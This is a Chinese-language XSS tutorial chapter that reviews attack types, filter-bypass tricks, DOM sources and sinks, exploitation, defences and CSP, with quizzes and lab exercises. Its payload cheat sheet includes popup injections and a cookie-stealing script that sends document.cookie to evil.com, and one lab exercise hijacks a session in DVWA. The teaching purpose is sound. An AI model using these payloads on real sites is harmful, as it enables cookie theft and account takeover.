



# 第21章 总结与回顾：XSS模块

> **难度等级：🟢 简单级 → 🟡 中等级**
>
> **预计学习时间：90分钟**
>
> **本章看点：XSS知识体系梳理、核心知识回顾、Payload速查表、常见问题解答、学习路线建议、综合练习与测试**
>
> ::: tip 说明
> 恭喜你！
>
> XSS模块到这里就结束了。
>
> 这三章内容，
> 从基础原理到绕过利用，
> 再到挖掘与防御，
> 内容还是挺多的。
>
> 不知道你吸收了多少？
>
> 这一章，
> 我们就来做个总结，
> 把这三章的内容串起来，
> 帮你梳理知识体系，
> 也解答一些常见问题。
>
> 学完这一章，
> 你对XSS就有了一个完整的认识。
>
> 接下来，
> 我们就进入下一个模块：文件上传漏洞。
> :::

---

## 📖 本章概述

::: tip 写在前面
XSS三章内容，
从基础到进阶到高级，
内容还是挺多的。

不知道你吸收了多少？

这一章，
我们就来好好回顾一下，
把这些知识串起来，
形成一个完整的知识体系。

同时，
我也会给你一些学习建议，
告诉你XSS学到什么程度算合格，
接下来该怎么继续深入。

让我们开始吧！
:::

---

## 🎯 学习目标

读完本章，你将能够：

- [x] 梳理XSS的完整知识体系
- [x] 回顾核心知识点，查缺补漏
- [x] 掌握XSS Payload速查表
- [x] 知道XSS的学习路径
- [x] 了解XSS常见问题
- [x] 检验自己的学习成果

---

## 🗺️ XSS知识体系

### 1.1 三章内容总览

XSS模块一共三章：

```
XSS模块
├── 第18章：XSS基础 —— 原理与分类
│   ├── 什么是XSS
│   ├── XSS的三种类型（反射型、存储型、DOM型）
│   ├── XSS的危害
│   ├── HTML和JavaScript基础
│   ├── 常见XSS Payload
│   ├── XSS平台介绍
│   └── Cookie、Session、Token
│
├── 第19章：XSS进阶 —— 绕过与利用
│   ├── 常见过滤手段
│   ├── 标签过滤绕过
│   ├── 事件过滤绕过
│   ├── 关键字过滤绕过
│   ├── 编码绕过
│   ├── 特殊字符过滤绕过
│   ├── XSS利用方式（钓鱼、键盘记录、会话劫持...）
│   ├── BeEF框架
│   └── CSP初探
│
└── 第20章：XSS高级 —— 挖掘与防御
    ├── XSS挖掘思路
    ├── 黑盒测试找XSS
    ├── 代码审计找XSS
    ├── DOM型XSS深入（Source/Sink）
    ├── CSP详解与绕过
    ├── XSS自动化检测工具
    └── XSS防御最佳实践
```

### 1.2 知识体系图

如果用一张图来表示XSS的知识体系：

```
XSS
├── 基础
│   ├── 原理：用户输入未转义，直接输出到页面
│   ├── 危害：偷Cookie、钓鱼、键盘记录、内网探测...
│   ├── 三种类型
│   │   ├── 反射型：URL里，点击触发，一次性
│   │   ├── 存储型：数据库里，访问触发，危害大
│   │   └── DOM型：纯前端，不经过服务器
│   ├── HTML基础（标签、属性、事件）
│   └── JavaScript基础
│
├── 绕过
│   ├── 标签绕过：换标签、大小写、双写、换行
│   ├── 事件绕过：换事件、大小写、插入字符
│   ├── 关键字绕过：拼接、编码、String.fromCharCode
│   ├── 编码绕过：HTML实体、URL编码、Unicode、base64
│   ├── 特殊字符绕过
│   │   ├── 过滤尖括号：属性位置闭合
│   │   ├── 过滤引号：不用引号、反引号
│   │   ├── 过滤括号：反引号、throw+onerror
│   │   └── 过滤空格：换行、制表符、注释、斜杠
│   └── CSP绕过：JSONP、允许的域名、不安全配置
│
├── 利用
│   ├── 窃取Cookie，会话劫持
│   ├── 钓鱼攻击（假登录框、跳转）
│   ├── 键盘记录
│   ├── 网页篡改
│   ├── 内网探测
│   ├── 刷广告/刷流量
│   ├── 结合其他漏洞（CSRF、SSRF...）
│   └── BeEF框架
│
├── 挖掘
│   ├── 黑盒测试
│   │   ├── 找输入点：GET/POST/Cookie/Header...
│   │   ├── 找输出点：标签间/属性中/JS中/CSS中/URL中
│   │   ├── 初步测试：特殊字符
│   │   ├── 构造Payload，尝试绕过
│   │   └── 检查清单，不要漏
│   ├── 代码审计
│   │   ├── 找输入到输出的路径
│   │   ├── 正向跟踪 vs 反向跟踪
│   │   └── DOM型XSS审计（Source → Sink）
│   └── 工具辅助：扫描器、专用工具
│
└── 防御
    ├── 核心原则：输入验证 + 输出转义
    ├── 输出转义（最根本）
    │   ├── HTML实体转义
    │   ├── 不同位置不同转义方式
    │   └── 框架/模板自动转义
    ├── 输入验证（白名单，辅助）
    ├── HttpOnly Cookie（防偷Cookie）
    ├── CSP内容安全策略（最后一道防线）
    ├── WAF（辅助）
    └── 安全编码规范 + 培训
```

是不是很清晰？

**图21-1 XSS模块完整知识体系图**

```mermaid
flowchart TD
    XSS[XSS 跨站脚本攻击]

    XSS --> Base[基础]
    XSS --> Bypass[绕过]
    XSS --> Use[利用]
    XSS --> Find[挖掘]
    XSS --> Def[防御]

    Base --> B1[原理: 输入未转义直接输出]
    Base --> B2[危害: 偷Cookie/钓鱼/键盘记录]
    Base --> B3[三种类型: 反射/存储/DOM]
    Base --> B4[HTML与JavaScript基础]

    Bypass --> By1[标签绕过 换标签/大小写/双写]
    Bypass --> By2[事件绕过 换事件]
    Bypass --> By3[关键字绕过 拼接/编码]
    Bypass --> By4[编码绕过 HTML实体/URL/Unicode]
    Bypass --> By5[特殊字符绕过 引号/括号/尖括号]
    Bypass --> By6[CSP绕过 JSONP/允许域名]

    Use --> U1[窃取Cookie 会话劫持]
    Use --> U2[钓鱼攻击]
    Use --> U3[键盘记录]
    Use --> U4[内网探测]
    Use --> U5[BeEF框架]
    Use --> U6[组合攻击 XSS+CSRF]

    Find --> F1[黑盒测试 找输入/输出点]
    Find --> F2[代码审计 输入到输出路径]
    Find --> F3[DOM XSS审计 Source到Sink]
    Find --> F4[工具辅助 扫描器/专用工具]

    Def --> D1["第1层 输入验证 辅助"]
    Def --> D2["第2层 输出转义 最根本"]
    Def --> D3["第3层 安全框架/模板"]
    Def --> D4["第4层 HttpOnly Cookie"]
    Def --> D5["第5层 CSP 最后一道防线"]
    Def --> D6["第6层 WAF 辅助"]
```



---

## 🧠 核心知识回顾

### 2.1 XSS三种类型对比

| 类型 | 存储位置 | 触发方式 | 危害程度 | 发现难度 | 典型场景 |
|------|----------|----------|----------|----------|----------|
| 反射型 | URL里 | 点击恶意链接 | 中等 | 简单 | 搜索框、错误页面 |
| 存储型 | 数据库 | 访问页面 | 高 | 简单 | 评论区、留言板、个人资料 |
| DOM型 | 前端/URL | 前端JS操作 | 中等 | 较难 | 单页应用、前端路由 |

**危害排序：** 存储型 > 反射型 ≈ DOM型

**图21-2 XSS三种类型对比决策图**



### 2.2 常见XSS Payload速查

**最基础的弹窗：**
```html
<script>alert(1)</script>
```

**不用script标签：**
```html

<svg onload=alert(1)>
<body onload=alert(1)>
<input autofocus onfocus=alert(1)>
<details open ontoggle=alert(1)>
```

**伪协议：**
```html
<a href="javascript:alert(1)">点我</a>
<iframe src="javascript:alert(1)"></iframe>
```

**偷Cookie：**
```html
<script>
new Image().src = 'http://evil.com/steal?c=' + document.cookie;
</script>
```

**属性位置（双引号）：**
```
" onmouseover=alert(1) x="
">
" autofocus onfocus=alert(1) x="
```

**属性位置（单引号）：**
```
' onmouseover=alert(1) x='
'>
```

**JS代码中：**
```
";alert(1);//
</script><script>alert(1)</script>
```

**编码绕过（HTML实体）：**
```html

```

**拼接绕过：**
```html

```

**反引号（不用括号）：**
```html

```

### 2.3 绕过技巧汇总

| 绕过类型 | 方法 | 例子 |
|----------|------|------|
| 标签过滤 | 换标签 | img、svg、body、input、iframe... |
| 事件过滤 | 换事件 | onerror、onload、onfocus、ontoggle... |
| 大小写 | 大小写混合 | `` |
| 关键字过滤 | 字符串拼接 | `eval('al'+'ert(1)')` |
| 关键字过滤 | 编码 | Unicode、八进制、十六进制、base64 |
| 关键字过滤 | String.fromCharCode | `String.fromCharCode(97,108,...)` |
| 编码绕过 | HTML实体编码 | `&#97;`、`&#x61;`（属性值中） |
| 编码绕过 | URL编码 | `%61`（URL属性中） |
| 空格过滤 | 换行/制表符 | 标签内插换行、Tab |
| 空格过滤 | 注释 | `/**/` |
| 空格过滤 | 斜杠 | `` |
| 引号过滤 | 不用引号 | 很多属性值可以不用引号 |
| 引号过滤 | 反引号 | `` alert`1` `` |
| 括号过滤 | 反引号 | `` alert`1` `` |
| 括号过滤 | throw+onerror | `window.onerror=alert;throw 1` |
| 尖括号过滤 | 闭合属性+事件 | `" onmouseover=alert(1) x="` |

**图21-3 XSS绕过技巧分类总览图**

```mermaid
flowchart TD
    Filter[遇到XSS过滤]
    Filter --> F1[标签过滤]
    Filter --> F2[事件过滤]
    Filter --> F3[关键字过滤]
    Filter --> F4[特殊字符过滤]
    Filter --> F5[编码层面]
    Filter --> F6[CSP限制]

    F1 --> F1a[换标签 img/svg/body/input]
    F1 --> F1b[大小写混合]
    F1 --> F1c[双写绕过]
    F1 --> F1d[插换行/制表符]

    F2 --> F2a[换事件 几十个可选]
    F2 --> F2b[大小写混合]
    F2 --> F2c[事件名插字符]

    F3 --> F3a[字符串拼接]
    F3 --> F3b[Unicode/八进制/十六进制编码]
    F3 --> F3c[base64 + atob]
    F3 --> F3d[String.fromCharCode]
    F3 --> F3e[数组访问 window'alert']

    F4 --> F4a[过滤引号: 反引号/不用引号]
    F4 --> F4b[过滤括号: 反引号调用]
    F4 --> F4c[过滤空格: 换行/斜杠/注释]
    F4 --> F4d[过滤尖括号: 闭合属性+事件]

    F5 --> F5a[HTML实体编码 属性值中]
    F5 --> F5b[URL编码 URL属性中]
    F5 --> F5c[多重编码组合]

    F6 --> F6a[JSONP接口callback可控]
    F6 --> F6b[允许域名上有可控JS]
    F6 --> F6c[unsafe-inline/unsafe-eval配置]
```



### 2.4 DOM型XSS Source & Sink

**常见Source（数据源）：**
```javascript
location.href
location.hash
location.search
location.pathname
document.URL
document.referrer
window.name
localStorage
sessionStorage
cookie
postMessage
```

**常见Sink（漏点）：**
```javascript
// HTML插入
element.innerHTML = data
element.outerHTML = data
document.write(data)
document.writeln(data)
element.insertAdjacentHTML(pos, data)

// 代码执行
eval(data)
setTimeout(data, 100)
setInterval(data, 100)
new Function(data)()

// URL跳转
location.href = data
location.replace(data)
window.open(data)
element.src = data
element.href = data
```

**DOM XSS的本质：Source → Sink 数据流**

### 2.5 XSS利用方式汇总

| 利用方式 | 说明 |
|----------|------|
| 窃取Cookie | 最经典，会话劫持 |
| 钓鱼攻击 | 假登录框、跳转钓鱼页，可信度高 |
| 键盘记录 | 记录用户按键，偷密码等敏感信息 |
| 网页篡改 | 改页面内容、挂黑页、加黑链 |
| 内网探测 | 把浏览器当跳板，扫内网 |
| 刷广告/流量 | 用用户浏览器刷广告 |
| 浏览器信息收集 | UA、系统、屏幕大小... |
| 组合攻击 | XSS + CSRF、XSS + SSRF... |
| XSS蠕虫 | 自我复制，快速传播 |

### 2.6 XSS防御层次

```
第1层：输入验证（白名单检查） ← 辅助手段
第2层：输出转义（最核心、最重要） ← 根本解决
第3层：安全的框架和模板（自动转义） ← 减少人为失误
第4层：HttpOnly Cookie（防偷Cookie） ← 降低危害
第5层：CSP内容安全策略（脚本执行限制） ← 最后一道防线
第6层：WAF（辅助防护） ← 外围防御
```

**核心结论：输出转义是最根本、最有效的防御方法。**

### 2.7 CSP速查

**常用指令：**
- `script-src`：脚本来源
- `style-src`：样式来源
- `img-src`：图片来源
- `default-src`：默认策略
- `connect-src`：AJAX等连接
- `form-action`：表单提交地址
- `frame-ancestors`：iframe嵌入
- `base-uri`：base标签

**常用源值：**
- `'self'`：同源
- `'none'`：不允许任何
- `'unsafe-inline'`：允许内联
- `'unsafe-eval'`：允许eval
- `*.example.com`：子域名
- `https:`：所有HTTPS

**推荐严格配置：**
```
default-src 'none';
script-src 'self';
style-src 'self';
img-src 'self';
connect-src 'self';
object-src 'none';
base-uri 'self';
form-action 'self';
frame-ancestors 'none';
upgrade-insecure-requests;
```

---

## ❓ 常见问题解答

### 3.1 XSS学到什么程度算合格？

这个问题没有标准答案，
但是可以给你一个参考：

**入门水平：**
- 知道什么是XSS
- 能区分三种类型
- 会用基础Payload弹窗
- 知道XSS能偷Cookie
- 会在DVWA上做简单练习

**合格水平：**
- 熟悉各种类型的XSS
- 掌握常见的绕过技巧
- 能独立挖掘简单的XSS
- 了解XSS的各种利用方式
- 知道怎么防御XSS
- 了解CSP的基本概念

**高手水平：**
- 精通各种绕过技巧
- 能针对不同场景定制Payload
- 能绕过各种WAF和CSP
- 能做代码审计找XSS
- 精通DOM型XSS
- 能把XSS和其他漏洞组合利用
- 能写出安全的代码

对于新手来说，
达到合格水平就可以了。
后面可以在实战中慢慢提升。

**图21-4 XSS学习成长路径图**



### 3.2 XSS和SQL注入哪个更重要？

都重要。
都是Web安全的核心漏洞。

如果非要比的话：
- **SQL注入**：危害更大，直接拖库，但是相对少一些了
- **XSS**：更普遍，出现频率更高，但是利用起来麻烦一些

都是必学的，
没有哪个更重要之说。
两个都得会。

### 3.3 XSS现在还有用吗？

当然有用！

虽然现在大家安全意识提高了，
框架也都自带转义了，
但是XSS依然是OWASP Top 10里的常客，
真实环境中还是经常能遇到。

而且：
- 老系统、老网站很多还有XSS
- 新系统也可能因为开发者不注意出现XSS
- 富文本、用户生成内容（UGC）的地方还是容易出问题
- DOM型XSS越来越多
- 护网行动中，XSS还是常见的突破口

特别是存储型XSS，
打到管理员就是高危。

所以XSS还是很值得学的。

### 3.4 怎么练习XSS？

推荐的练习路径：

1. **DVWA**：入门必练，从Low到High难度
2. **XSS Challenges**：专门的XSS挑战靶场，十几关
3. **Pikachu**：国产靶场，也有XSS练习
4. **WebGoat**：OWASP的靶场，内容很全
5. **CTF平台**：Bugku、CTFHub、攻防世界...
6. **VulnHub**：虚拟机靶场，更接近真实环境

从简单到难，
一个一个练，
练得多了自然就会了。

**图21-5 XSS练习路径推荐图**



### 3.5 手工XSS重要还是工具重要？

**都重要，但是先学手工，再用工具。**

为什么？
- 手工帮你理解原理
- 工具帮你提高效率
- 工具跑不出来的时候，还得靠手工

就像学数学，
你得先会手算，
再用计算器。
不然计算器算出来的结果对不对，
你都不知道。

**建议：**
- 新手阶段：多练手工XSS，把原理搞懂
- 熟练之后：用工具提高效率
- 遇到问题：回到手工，分析原因

### 3.6 XSS能拿Shell吗？

直接拿一般不行，
但是间接可以。

比如：
- XSS打到管理员 → 进后台 → 后台拿Shell
- XSS打内网 → 探测内网 → 攻击内网服务
- XSS + 文件上传 → 配合拿Shell
- XSS + CSRF → 伪造操作拿Shell

XSS本身是客户端漏洞，
不能直接拿服务器权限，
但是可以作为跳板，
一步步深入。

### 3.7 HttpOnly能防XSS吗？

不能。

HttpOnly只是让JavaScript读不到Cookie，
只能防偷Cookie，
不能防XSS本身。

XSS还可以：
- 钓鱼
- 键盘记录
- 篡改网页
- 内网探测
- CSRF
- ...

HttpOnly只是降低了XSS的危害，
不能从根本上解决问题。

### 3.8 CSP能完全防住XSS吗？

也不能。

CSP是一道很强的防线，
但是：
- 配置不当的CSP可以绕过
- 浏览器可能有bug
- 不是所有浏览器都完美支持
- 就算脚本执行不了，还可以做别的

CSP是最后一道防线，
但不是万能的。
还是要从源头做好输出转义。

---

## 🚀 深入学习建议

### 4.1 下一步学什么？

XSS模块学完之后，
建议接下来学文件上传漏洞。

文件上传也是Web漏洞里的大头，
而且更直接，
上传个Shell就能拿服务器权限，
非常刺激。

学完文件上传，
再学文件包含、命令执行、CSRF、SSRF、逻辑漏洞...
把常见的Web漏洞都过一遍。

然后再学内网渗透、社工钓鱼...
一步一步来。

### 4.2 XSS怎么继续深入？

如果还想继续深入XSS，
可以往这几个方向：

1. **绕过研究**
   - 研究各种WAF的XSS绕过
   - 研究各种CMS的XSS绕过
   - 学习新的绕过技巧
   - 研究CSP绕过

2. **代码审计**
   - 学习各种CMS的XSS审计
   - 审计框架的XSS漏洞
   - 学习找0day的思路
   - DOM型XSS深入研究

3. **高级利用**
   - XSS内网渗透
   - XSS结合浏览器漏洞
   - XSS蠕虫技术
   - 各种高级XSS技巧

4. **防护研究**
   - CSP的最佳实践
   - XSS检测和防护
   - 安全编码规范
   - 代码审计自动化

### 4.3 学习资源推荐

**靶场：**
- DVWA：入门必练
- XSS Challenges：XSS专项挑战
- Pikachu：国产靶场
- WebGoat：OWASP官方靶场
- CTFHub、Bugku、攻防世界：CTF平台

**文章/教程：**
- XSS跨站脚本攻击剖析与防御（书）
- Web安全深度剖析（书）
- 白帽子讲Web安全（书）
- 各种CTF Writeup
- 各种安全博客

**工具：**
- BurpSuite：抓包改包必备
- XSStrike：XSS扫描神器
- BeEF：浏览器攻击框架
- HackBar：浏览器插件，测试方便

---

## 🧪 XSS综合测试

学了这么多，
来测一测你掌握了多少吧！

### 选择题（综合）

1. XSS的全称是？
   - A. Cross-Site Scripting
   - B. Cross-Site Request Forgery
   - C. Server-Side Request Forgery
   - D. Structured Query Language

2. 以下哪种XSS的危害最大？
   - A. 反射型
   - B. 存储型
   - C. DOM型
   - D. 都一样

3. 以下哪个标签不能执行JavaScript？
   - A. `<script>`
   - B. ``
   - C. `<svg>`
   - D. `<strong>`

4. 以下哪个事件是自动触发的？
   - A. `onclick`
   - B. `onmouseover`
   - C. `onerror`（图片加载失败时）
   - D. `onkeydown`

5. HTML实体编码在哪个位置有效？
   - A. 标签名中
   - B. 属性名中
   - C. 属性值中
   - D. 任何位置

6. 偷Cookie的核心代码是？
   - A. `document.cookie`
   - B. `window.cookie`
   - C. `navigator.cookie`
   - D. `screen.cookie`

7. 以下哪个可以防止XSS偷Cookie？
   - A. HttpOnly
   - B. Secure
   - C. SameSite
   - D. 以上都可以

8. DOM型XSS的两个核心概念是？
   - A. Source和Sink
   - B. Input和Output
   - C. Get和Post
   - D. Request和Response

9. 防御XSS最根本的方法是？
   - A. WAF
   - B. 输出转义
   - C. CSP
   - D. 输入验证

10. CSP中，用来限制脚本来源的指令是？
    - A. `default-src`
    - B. `script-src`
    - C. `style-src`
    - D. `img-src`

### 填空题（综合）

1. XSS的三种类型是：______、______、______。

2. XSS的根本原因是：______。

3. 请写出三个可以执行JS的标签：______、______、______。

4. 请写出三个自动触发的事件：______、______、______。

5. 偷Cookie常用的对象是______。

6. HTML实体编码中，双引号的十进制编码是______。

7. DOM型XSS中，数据源叫______，危险的输出点叫______。

8. 防御XSS的核心原则是______ + ______。

9. 防御XSS最根本、最有效的方法是______。

10. CSP的全称是______。

### 简答题（综合）

1. 用自己的话说说，什么是XSS？

2. XSS的三种类型各有什么特点？哪个危害最大？为什么？

3. XSS能做什么？（至少说5种）

4. XSS的绕过技巧有哪些？（至少说5种）

5. 什么是DOM型XSS？Source和Sink是什么意思？

6. 什么是Self-XSS？能不能升级？怎么升级？

7. 什么是CSP？它怎么防XSS？

8. 防御XSS的方法有哪些？哪个最有效？为什么？

9. 为什么说输入验证不能代替输出转义？

10. XSS和SQL注入有什么相同点和不同点？

### 实操题（综合）

1. **DVWA通关挑战**
   - 打开DVWA，XSS三个模块（Reflected、Stored、DOM）
   - 用手工的方式通关Low、Medium、High三个难度
   - 每个难度都用至少3种不同的Payload
   - 把成功的Payload和思路整理成笔记

2. **XSS Challenges闯关**
   - 找一个XSS Challenges靶场（线上或本地搭建）
   - 至少闯过前10关
   - 每一关都自己想Payload
   - 然后看别人的Writeup对比
   - 记录下绕过思路

3. **XSS综合利用练习**
   - 在DVWA的存储型XSS里插一个偷Cookie的Payload
   - 自己搭一个简单的接收页面（或者用XSS平台）
   - 用另一个浏览器访问，看看能不能收到Cookie
   - 试试用收到的Cookie登录
   - 理解会话劫持的原理

4. **挖掘练习**
   - 找一个开源的Web应用（或者靶场）
   - 用黑盒测试的方法找XSS
   - 再用代码审计的方法找XSS
   - 对比两种方法的结果
   - 总结挖掘思路

5. **安全代码编写练习**
   - 写一个有XSS漏洞的搜索页面
   - 然后用正确的方法修复
   - 再写一个有DOM型XSS的页面
   - 也修复它
   - 理解为什么这样能防XSS

---

## 🧠 XSS模块深度思考：为什么XSS这么难防？

学完这四章，你可能会有个疑问：
"XSS的原理好像不复杂啊？不就是没转义吗？加上转义不就好了！"

但现实中，XSS至今仍是Web安全排行榜上的常客。
这是为什么呢？我们来分析一下深层原因：

### 原因1：HTML的复杂性超乎想象

HTML不是一门"严谨"的语言。它极其宽容——
同一个意思可以有几十种写法：

```
"点击我"这3个字，可以有N种方式说出来：
- <a href="javascript:alert(1)">点我</a>        ← 正常
- <a href="&#106;avascript:alert(1)">点我</a>  ← HTML实体编码
- <a href="java%73cript:alert(1)">点我</a>     ← URL编码  
-                   ← 换个标签
- <svg onload=alert(1)>                          ← 再换个标签
- <body onpageshow=alert(1)>                    ← 换个事件
...还有几十种
```

作为开发者，你想"拦住所有XSS"，但你面对的是：
- 100+ 个HTML标签
- 200+ 个事件属性
- 多种编码方式（HTML实体、URL、Unicode、Base64...）
- 浏览器的各种"容错"行为（不闭合的标签也能解析）

**你需要在输入端识别所有可能性，而攻击者只需要找到一个你的遗漏。**

### 原因2：XSS可能出现在任何输出位置

```html
<!-- 位置1：标签内容中 -->
<div>用户输入在这里</div>

<!-- 位置2：属性值中 -->
<input value="用户输入在这里">

<!-- 位置3：JavaScript代码中 -->
<script>var name = '用户输入在这里';</script>

<!-- 位置4：CSS中 -->
<style>body { background: url('用户输入在这里'); }</style>

<!-- 位置5：URL中 -->
<a href="用户输入在这里">链接</a>
```

每个位置需要不同的转义方式！
- 位置1：HTML实体转义就够了
- 位置2：还要考虑属性闭合
- 位置3：需要JavaScript转义
- 位置4：需要CSS转义
- 位置5：需要URL编码

**漏掉任何一个位置，那就是一个XSS漏洞。**

### 原因3：前后端分离带来了新的挑战

在传统Web时代，XSS主要是服务器端的锅（没转义）。
但现在前后端分离流行，数据流变成了：

```
用户输入 → 前端JS处理 → API发送 → 后端存储 → API返回 → 前端渲染
```

问题来了：
- 前端开发者安全意识参差不齐
- `innerHTML` 操作随处可见
- 第三方组件（富文本编辑器、图表库）可能有隐藏的XSS
- SPA单页应用中，DOM操作频繁，Source和Sink很容易"对上"

### 所以，防御XSS的正确姿势是：

```
不要想着"把所有攻击都过滤掉"（不可能）
而是：
1. 做好输出转义（最基本的屏障）
2. 优先用安全的API（textContent代替innerHTML）
3. 开启CSP（最后一道防线）
4. Cookie设HttpOnly（降低危害）
5. 定期代码审计和安全测试
```

**理解了这些，你就从一个"会弹框的人"变成了"理解XSS本质的人"。**

---

## 📝 本章小结

这一章，
我们对XSS模块做了一个全面的总结和回顾。

主要内容包括：

1. **知识体系梳理**
   - 三章内容总览
   - 完整的知识体系图

2. **核心知识回顾**
   - 三种类型对比
   - Payload速查表
   - 绕过技巧汇总
   - DOM XSS Source/Sink
   - 利用方式汇总
   - 防御层次
   - CSP速查

3. **常见问题解答**
   - 学到什么程度算合格
   - 和SQL注入哪个重要
   - 现在还有用吗
   - 怎么练习
   - 手工还是工具重要
   - 能拿Shell吗
   - HttpOnly/CSP能完全防住吗

4. **深入学习建议**
   - 下一步学什么
   - 怎么继续深入
   - 学习资源推荐

5. **综合测试**
   - 选择题、填空题、简答题、实操题
   - 检验学习成果

> 最后送你一句话：
> **"XSS是Web安全的经典漏洞，
> 看似简单，
> 实则水很深。
>
> 入门容易，
> 精通难。
> 不要觉得弹个框就学会了，
> 那只是开始。
>
> 多练、多想、多总结，
> 你也能成为XSS高手。
>
> 下一个模块，
> 文件上传漏洞，
> 更刺激，
> 我们继续加油！"**

---

## 🔗 相关链接

- [⬅️ 上一章：---](/redteam/day024-basic-XSS高级)
- [➡️ 下一章：---](/redteam/day026-basic-文件上传基础)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)
